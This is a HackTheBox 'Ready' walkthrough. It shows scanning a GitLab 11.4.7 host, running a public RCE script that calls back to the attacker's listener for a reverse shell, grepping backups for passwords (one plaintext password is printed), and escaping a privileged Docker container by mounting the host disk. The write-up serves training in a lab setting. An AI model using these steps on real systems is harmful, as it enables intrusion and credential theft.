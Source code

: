 ```yaml
---
title: "HackTheBox - Ready"
author: Nasrallah
description: ""
date: 2023-05-19 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, medium, docker, rce, cve]
img_path: /assets/img/hackthebox/machines/ready
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [ready](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com).

![](0.png)

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.220
Host is up (0.65s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
5080/tcp open  http    nginx
|_http-title: GitLab is not responding (502)
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have OpenSSH on port 22 and Nginx on port 5080 and nmap tells us it's `Gitlab`.

### Web

Let's check the web page.

![](1.png)

We got redirected to a login page, we don't have any credentials so let's register a user.

![](2.png)

I've heard before of `Gitlab` having some vulnerabilities so i went to the help page to check the version of it.

![](3.png)

It's version 11.4.7, let's see if it has any vulns.

```terminal
$ searchsploit gitlab 11.4  
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
GitLab 11.4.7 - RCE (Authenticated) (2)                                                                                     | ruby/webapps/49334.py
GitLab 11.4.7 - Remote Code Execution (Authenticated) (1)                                                                   | ruby/webapps/49257.py
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

This version is vulnerable to remote code execution.

## **Foothold**

I tried multiple exploits but the one that worked for me is this [one](https://github.com/Algafix/gitlab-RCE-11.4.7).

Let's run the exploit.

```bash
python3 rce_script.py -u sirius -p password123 -g http://10.10.10.220:5080/ -l 10.10.17.90 -P 9001 bash
```

![](4.png)

Great! We got a shell.

## **Privilege Escalation**

The machine we're in is a docker container, so we need to escape it somehow.

On the /opt directory we find a backup directory.

```terminal
git@gitlab:/var$ cd /opt                                                                                                                                      git@gitlab:/opt$ ls -al
total 24                                                                                                                                                      
drwxr-xr-x 1 root root 4096 Apr  5  2022 .                              
drwxr-xr-x 1 root root 4096 Apr  5  2022 ..                                                                                                                   
drwxr-xr-x 2 root root 4096 Apr  5  2022 backup             
drwxr-xr-x 1 root root 4096 Apr  5  2022 gitlab         
```

Let's search recursively for password in the `backup` dir.

```terminal
git@gitlab:/opt/backup$ grep -Ri pass ./
./gitlab.rb:#### Email account password   
./gitlab.rb:# gitlab_rails['incoming_email_password'] = "[REDACTED]"
[snip]
./gitlab.rb:# gitlab_rails['redis_password'] = nil
./gitlab.rb:gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
./gitlab.rb:# gitlab_shell['http_settings'] = { user: 'username', password: 'password', ca_file: '/etc/ssl/cert.pem', ca_path: '/etc/pki/tls/certs', self_sign
ed_cert: false}
[snip]
./docker-compose.yml:        gitlab_rails['initial_root_password']=File.read('/root_pass')
./docker-compose.yml:      - './root_pass:/root_pass'
```

We found `smtp` password, let's see if it works for root.

```terminal
git@gitlab:~/gitlab-rails/working$ su root                                                                                                                    
Password:                                                                                                                                                     
root@gitlab:/var/opt/gitlab/gitlab-rails/working#
```

Nice, we got root on the container, but we still need to escape it.

On the `docker-compose.yml` file, which is what defines the current container, we find the following line `privileged: true` which means that this docker container has root privileges over the host system and one of the things we can do is to see the host drive with a command like `fdisk -l`.

```terminal
root@gitlab:/opt/backup# fdisk -l
Disk /dev/loop0: 55.4 MiB, 58052608 bytes, 113384 sectors
Units: sectors of 1 * 512 = 512 bytes
[snip]
Device        Start      End  Sectors  Size Type
/dev/sda1      2048     4095     2048    1M BIOS boot
/dev/sda2      4096 19920895 19916800  9.5G Linux filesystem
/dev/sda3  19920896 20969471  1048576  512M Linux swap 
```

The drive we're after is `/dev/sda2` which is the host system.

Now we can use `mount` to mount the drive in the container.

```bash
mount /dev/sda2 /mnt
```

![](5.png)

And just like that we have the host file system in our hands.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).